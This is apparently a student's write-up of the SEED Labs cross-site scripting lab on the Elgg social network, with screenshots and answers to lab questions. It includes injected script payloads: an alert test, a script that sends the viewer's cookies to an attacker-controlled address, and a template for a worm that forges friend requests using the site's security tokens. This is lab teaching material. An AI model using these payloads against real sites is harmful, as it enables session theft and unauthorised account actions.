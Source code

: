 # WEEK 10 and 11

## SEEDs LAB

Link: https://github.com/seed-labs/seed-labs/tree/master/category-web/Web_SQL_Injection


### Task 1 - Posting a Malicious Message to Display an Alert Window

- For this task, we need to embed a JavaScript code in an _Elgg_ profilem duch that when the user views the respective profile, an alart windows will appear.
- In order to do this, we used the following JavaScript code:

```js
<script>
    alert("XSS");
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/1.1-Edit_brief_description.PNG)

- After saving the new information, each time a user visited that respective profile (in our case, is the Alice's profile), a pop-up would appear.

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/1.2-popup.PNG)


### Task2 - Posting a Malicious Message to Display Cookies

- The objective of this task is similar to the first task, but instead of the message, we need to display the user cookie.

```js
<script> 
    document.write("<img src=htt://10.9.0.1:5555?c=" + escape(document.cookie) + " ›"); 
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/2.1-edit_brief_descriptio_image.PNG)

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/2.2-user_cookie.PNG)


### Task3 - Stealing cookies from the Victim's Machine

- In this task, we want to be able to send the user's cookies to a server that belongs to us, the attacker. 
- In order to to this, we use an image with the an hyperlink reference with the user cookie. We will use an image because each time the page is loaded the image is loaded with him, and consequently, the href is called.

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/3.1-edit_brief_description_image.PNG)

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/3.2-terminal_result.PNG)


### Task4 - Becoming the Victim's Friend

- Lastly, in this task, we will write an XSS worm that adds Samy as a friend to any other user (in our case, Alice) that visits Samy's profile.

```js
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.
    var sendurl=...; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.1-alice_profile_friends.PNG)

- When we visit Samy's profile, the script will send a forged friend request.
![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.2-alice_profile_on_samy_profile.PNG)

- When we visit Alice's profile, we can see that Samy is n ow a friend of Alice.
![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.3-alice_friends_page.PNG)

### Question1 - Explain the purpose of Lines 1 and 2, why ate they needed?
The referenced lines serve to send the _elgg_ token in our forged request so that the server evaluates the request as a valid request from the user.

### Question2 - If the _Elgg_ application only provide the ditor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the innerHTML content of that field. So, injecting any script into the _About me_ field is not possiblem as we can't submit the `<script>` tag into profile.



